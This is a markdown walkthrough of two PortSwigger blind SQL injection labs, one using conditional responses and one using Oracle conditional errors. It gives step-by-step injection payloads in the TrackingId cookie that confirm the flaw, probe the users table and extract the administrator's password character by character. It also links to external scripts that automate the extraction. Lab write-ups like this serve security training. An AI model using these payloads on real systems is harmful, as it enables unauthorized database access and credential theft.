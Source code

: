 # Blind SQL injection-Boolean Based
## Summary
- [Lab11: Blind SQL injection with conditional responses]()
- [Lab12: Blind SQL injection with conditional errors]()

### Lab11: Blind SQL injection with conditional responses
- In Blind SQL injection, the application doesn't reply with the results of the query which we injected so we don't see any messages from the server to help us to detect the error to bypass it. 
- We will depend on some techniques to detect the blind SQL injection and exploit it and one of their techniques is called `using conditional responses`.
- Here, we will send some questions as queries to the server to wait for the reply from it if our query is `True` or `False`.

- You can send any of conditions to validate and monitor the responses like that:
```
TrackingId=xyz'--      
TrackingId=xyz'        (Causing in unnatural behavior)
```
#### or such as that:
```
TrackingId=xyz' AND 1=1--     (True condition)
TrackingId=xyz' AND 1=2--     (False condition and causing in unnatural behavior)
```

> `Note:` Some servers block the comment symbols as `#` and `--`, so we can use the condition with the single quotes like that:

```
TrackingId=xyz' AND '1'='1    (True condition)
TrackingId=xyz' AND '1'='2    (False condition and causing in unnatural behavior)
```
- If we used the comparer in burp suite to observe the behavior of the responses between the `True` and `False` conditions, we will find unnatural behavior in the application and the length of each response is different.
- And there is a `Welcome back!` message that is deleted when we send a `False` condition.
- But in the `True` condition, we will see a `Welcome back!` message in the response.

![lab11_comparer.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_comparer.png)

- So we proved and confirmed that the application evaluates our queries and the `TrackingId` parameter is vulnerable to blind SQL injection.

- Now we will try to verify and notice the message in the response to know if our query is `True` or `False`. 
- Here, we sured that there is a table is called a `users` when the `Welcome back!` message has appeared:
```
TrackingId=xyz' AND (SELECT 'test' FROM users LIMIT 1)='test'--
```

> `Note:` In the real-world scenario, you must try a lot of payloads and test a lot to reach any valid query that the application interprets.
- Now we will try to verify if the column of username is existing in the table or not by identifying the username with `administrator`:

```
TrackingId=xyz' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
```
- Ok, there is an `administrator` username, so let's go to know the length of the password, but we will need to test many numbers and observe the message when it appears, and so we will know the right number of characters for the password.

```
TrackingId=xyz' AND (select 'test' FROM users WHERE username='administrator' and length(password)=1)='test'--
```
- But we will do that by the brute-forcing the length and matching if the message appeared and then we will know that this is the right number of length:

![lab11_brutefocring_length.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_brutefocring_length.png)

- We have known that the length password is 20 char.
- After that, we need to extract the password characters to log in with the admin password.
- We will do that by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or SUBSTR in Oracle), which returns a substring of its input.
- Check out how these functions work:
	- [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp)
	- [ASCII()](https://www.w3schools.com/sql/func_mysql_ascii.asp)

```
TrackingId=xyz' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='administrator')=112--
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically and quickly.
- You can see my script from here:[SQLi_lab11_password_admin.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab11_password_admin.py)
- To run the script:
```
$ python3 SQLi_lab11_password_admin.py "Target_URl"
```

![lab11_password_admin.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_password_admin.png)

- Congrats, we got the password admin.

-----------------------------------------------------------------------
### Lab12: Blind SQL injection with conditional errors
- Here, our methodology will depend on the conditional responses which cause an SQL error.
- The main target is doing anything to cause an error in the database to ensure that the server reads and interprets our query so we will know the parameter is vulnerable to SQL injection.
- We can cause a SQL error like that(You can try any other payloads as you need):

```
TrackingId=xyz'               (Internal Server Error)
TrackingId=xyz' and 1=1'--    (Internal Server Error)
```
- But if you fixed them and added another single quote, you will receive succeeded response.
```
TrackingId=xyz''               (Succeeded response)
TrackingId=xyz' and 1='1'--    (Succeeded response)
```
- If you tried a payload like that you will notice that the logical conditions using (AND, OR) don't respond to any succeeded response.
```
TrackingId=xyz' AND (SELECT NULL)--    (Internal Server Error)
```
- And if you tried the concatenating, it won't work also.
```
TrackingId=xyz' || (SELECT NULL)--    (Internal Server Error)
```
- But if you tried concatenating and used the `dual` table, you will detect that it is an oracle database, and the server will respond with a succeeded response.

```
TrackingId=xyz' ||(SELECT NULL from dual)--
```
- Here we will try to prove that the `user` table is exist but it will respond with an `Internal Server Error`.
```
TrackingId=xyz' ||(SELECT NULL FROM users)--
```
- But you can limit the number of rows in oracle by using `ROWNUM` column.
- Check out: [ROWNUM](https://docs.oracle.com/cd/B14117_01/server.101/b10759/pseudocolumns008.htm)
```
TrackingId=xyz' ||(SELECT NULL FROM users WHERE ROWNUM = 1)--
```
- Now we will use the `CASE` statement to help us to submit our conditions.
- Check out the syntax of it: [SQL CASE Statement](https://www.w3schools.com/sql/sql_case.asp)
- Here, we will set a condition `1=1` which is `True`, so it will execute the action of  `TO_CHAR(1/0)`, and it will cause a `divide-by-zero error` and the server will respond with `Internal Server Error`.
- [TO_CHAR()](https://www.w3schools.blog/to-char-function-oracle): it will make this error because it can not convert this expression `1/0` from number to string, and we will use this function because it is an oracle database.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE 'test' END FROM dual)--
```
- but we can fix this condition by changing it to `1=2` to execute the action of `'test'`.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE 'test' END FROM dual)--
```
- You can check out the conditional errors payloads for different databases from the [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- So now we will check if the administrator is in the `users` table or not by the same previous condition `1=2`.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE 'test' END FROM users WHERE username='administrator')--
```
- Now, it is left only to know the password, but first, we need to know the length of the password.
- We will use the condition where if the length of the password is `True`, it will execute the action of `TO_CHAR(1/0)` and the server will respond with the error message.
- But now we will brute force the position of password length with intruder and match the message of `Internal Server Error` when it appears.
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE 'test' END FROM users WHERE username='administrator')--
```
- It's very amazing, we caught the length of the password through the error message, which appeared in the response(The password length is 20 char).

![lab12_length_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab12_length_password.png)

- After we have known the length of the password, we need to extract the password characters to log in with the admin password.
- We will do that by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or `SUBSTR` in Oracle), which returns a substring of its input.

```
TrackingId=xyz'||(SELECT CASE WHEN ASCII(SUBSTR(password,1,1))=111 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically and quickly.
- You can see my script from here:[SQLi_lab12_password_admin.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab12_password_admin.py)
- To run the script:
```
$ python3 SQLi_lab12_password_admin.py "Target_URl"
```

![lab12_admin_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab12_admin_password.png)

- Congrats, and finally, we got the password admin.









